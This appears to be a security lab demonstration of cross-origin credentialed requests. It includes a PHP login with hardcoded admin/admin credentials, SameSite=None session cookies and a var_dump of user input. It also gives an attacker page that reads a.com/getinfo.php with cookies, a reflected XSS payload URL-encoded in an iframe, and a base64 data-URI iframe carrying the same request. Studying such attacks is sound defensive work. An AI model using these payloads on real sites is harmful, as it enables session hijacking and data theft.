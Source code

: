 ```php
```

login.php

```php
<?php
ini_set('session.cookie_secure', "1");
ini_set('session.cookie_samesite', 'None');

session_start();
var_dump($_POST["username"]);
if ($_POST["username"] === "admin" && $_POST["password"] === "admin") {
    $_SESSION['isLogin'] = true;
    header("Location: getinfo.php");
}

?>

<form action="login.php" method="post">
    <input type="text" placeholder="username" name="username">
    <input type="password" placeholder="password" name="password">
    <input type="submit">
</form>
```

b.com的index.html

```html
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'https://a.com:8081/getinfo.php', true);
    xhr.withCredentials = true;
    xhr.onreadystatechange = function () {
        if (xhr.status === 200) {
            console.log(xhr.responseText);
        }
    };
    xhr.send();
</script>
```

xss.html

```html
<iframe src="https://bug.a.com:8081/index.php?name=%3Cscript%3E%20var%20xhr%20=%20new%20XMLHttpRequest();%20xhr.open(%27GET%27,%20%27https://a.com:8081/getinfo.php%27,%20true);%20xhr.withCredentials%20=%20true;%20xhr.onreadystatechange%20=%20function%20()%20{%20if%20(xhr.status%20===%20200)%20{%20console.log(xhr.responseText);%20}%20};%20xhr.send();%20%3C/script%3E">

</iframe>
```

iframe.html

```html
<iframe sandbox="allow-scripts" src="data:text/html;base64,PHNjcmlwdD4KICAgIHZhciB4aHIgPSBuZXcgWE1MSHR0cFJlcXVlc3QoKTsKICAgIHhoci5vcGVuKCdHRVQnLCAnaHR0cHM6Ly9hLmNvbTo4MDgxL2dldGluZm8ucGhwJywgdHJ1ZSk7CiAgICB4aHIud2l0aENyZWRlbnRpYWxzID0gdHJ1ZTsKICAgIHhoci5vbnJlYWR5c3RhdGVjaGFuZ2UgPSBmdW5jdGlvbiAoKSB7CiAgICAgICAgaWYgKHhoci5zdGF0dXMgPT09IDIwMCkgewogICAgICAgICAgICBjb25zb2xlLmxvZyh4aHIucmVzcG9uc2VUZXh0KTsKICAgICAgICB9CiAgICB9OwogICAgeGhyLnNlbmQoKTsKPC9zY3JpcHQ+"></iframe>
```